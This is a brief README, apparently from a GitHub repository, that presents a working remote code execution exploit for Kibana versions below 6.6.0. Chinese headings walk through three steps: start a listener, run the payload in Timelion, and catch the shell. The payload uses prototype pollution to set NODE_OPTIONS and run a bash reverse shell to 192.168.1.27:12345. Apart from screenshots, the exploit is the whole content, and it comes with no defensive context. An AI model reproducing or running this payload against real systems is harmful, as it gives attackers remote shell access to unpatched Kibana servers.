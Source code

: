 # kibana-RCE <6.6.0

* 监听端口

![](./kibana1.jpg "监听端口")

POC： 
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.1.27/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
* 执行POC

![](./kibana_2.jpg "点击RUN执行")

* 成功反弹shell

![](./kibana3.png "成功反弹shell")

